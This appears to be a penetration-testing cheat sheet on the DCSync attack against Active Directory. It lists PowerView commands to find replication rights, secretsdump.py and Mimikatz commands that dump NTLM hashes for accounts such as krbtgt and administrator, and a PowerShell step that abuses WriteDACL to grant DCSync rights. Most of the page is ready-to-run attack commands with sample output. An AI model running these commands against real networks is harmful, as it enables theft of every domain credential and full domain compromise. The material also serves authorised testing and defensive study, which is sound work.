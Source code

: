```yaml
---
description: Syncing into full domain compomise
---
```


# DCSync

{% embed url="https://www.youtube.com/watch?ab_channel=Netwrix&v=_m3u13Df7Fc" %}
Hard to prevent and detec.
{% endembed %}

### What is a DCSync attack

DCSync is a attack for stealing the Active Directory password database by using the Directory Replication Service Remote Protocol. This allows an attacker to mimic a Domain Controller to retrieve all the user NTLM password hashes.

To perfrom this attack you need the rights:

* Replicating Directory Changes
* Replciating Directory Changes all

<figure><img src="broken-reference" alt=""><figcaption><p>Its commond to find these right enabled.</p></figcaption></figure>

#### Use powershell to check for Replication rights

First retrieve the user's SID and then use Get-ObjectAcl to check or Replication rights

```bash
Get-DomainUser -Identity mczen  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=zencorp,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Returns
AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All
```

### The DCSync attack

DCSync replication can be done by several tools. Runnings these tools and performing the DCSync attack will result in extracting NTLM hashes.

#### Secretsdump

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* `-just-dc-ntlm` for NTLM hashes only
* `just-dc` for NTLM, Kerberos and cleartext
* -j`ust-dc-user` username for specific user
* `history` for password history
* `-pwd-last-set` password last changes

#### Mimikatz

When using Mimikatz we have to target a user and must ben run by the user who has the DCSync privileges.

```powershell
# Using mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Using mimikatz.exe
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:ZENCORP.LOCAL /user:ZENCORP\administrator

# Or target the krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <mark style="color:yellow;">WriteDACL</mark>

The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges.

* ACL: Acces Control Lists defines who has access to which asset or resource.
* ACE: Acces Control Entries stores ACL settings.
* Security principal: Entity to which ACE applies, like users, group or process.

Using powershell we can use these WriteDACL rights to add DCSync privileges to an aacount.

```powershell
# Create credential object
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Add DCSynce privilgess
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
